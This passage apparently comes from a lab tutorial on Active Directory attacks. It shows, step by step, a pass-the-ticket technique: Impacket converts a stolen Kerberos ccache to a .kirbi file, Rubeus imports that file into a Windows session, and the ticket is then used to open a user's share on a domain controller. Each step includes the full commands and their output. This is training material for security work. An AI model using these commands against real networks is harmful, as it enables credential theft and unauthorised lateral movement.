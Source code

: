 ### **Impacket Ticket Converter**

```shell-session
$ impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] converting ccache to kirbi...
[+] done
```

We can do the reverse operation by first selecting a `.kirbi file`. Let's use the `.kirbi` file in Windows.

### **Importing Converted Ticket into Windows Session with Rubeus**

```cmd-session
C:\htb> C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.1.2


[*] Action: Import Ticket
[+] Ticket successfully imported!
C:\htb> klist

Current LogonId is 0:0x31adf02

Cached Tickets: (1)

#0>     Client: julio @ INLANEFREIGHT.HTB
        Server: krbtgt/INLANEFREIGHT.HTB @ INLANEFREIGHT.HTB
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0xa1c20000 -> reserved forwarded invalid renewable initial 0x20000
        Start Time: 10/10/2022 5:46:02 (local)
        End Time:   10/10/2022 15:46:02 (local)
        Renew Time: 10/11/2022 5:46:02 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:

C:\htb>dir \\dc01\julio
 Volume in drive \\dc01\julio has no label.
 Volume Serial Number is B8B3-0D72

 Directory of \\dc01\julio

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,161,782,784 bytes free
```
